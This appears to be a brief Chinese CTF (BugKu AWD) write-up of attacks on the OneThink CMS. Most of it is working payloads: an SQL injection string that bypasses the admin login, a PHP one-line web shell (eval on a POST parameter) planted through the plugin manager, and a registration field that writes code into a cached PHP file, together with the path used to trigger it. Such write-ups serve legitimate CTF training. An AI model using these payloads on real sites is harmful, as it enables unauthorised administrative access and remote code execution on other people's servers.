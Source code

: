 # bugkuAWD-05-Onethink

## sql注入进后台

payload

```
username[]=like 1)and 1 in (2) union select 1,2,'',4,5,6,7,8,9,10,11%23&username[]=0&password=&verify=验证码
```

## 后台getshell

后台 > 插件管理, 新建test > 是否需要配置下面的框

```
<?php @eval($_POST[a]);?>
```

保存后扩展功能插件管理处会增加test插件信息 

在网站Addons目录下创建一个test文件夹，config.php内容就是写入的一句话木马 

## 用户注册反序列化漏洞

```
<?php
//000000000000a:3:{s:2:"u7";s:6:"111111";s:2:"u8";s:12:"
phpinfo();//";}
?>
```

访问缓存文件 `data/runtime/temp/2bb202459c30a1628513f40ab22fa01a.php`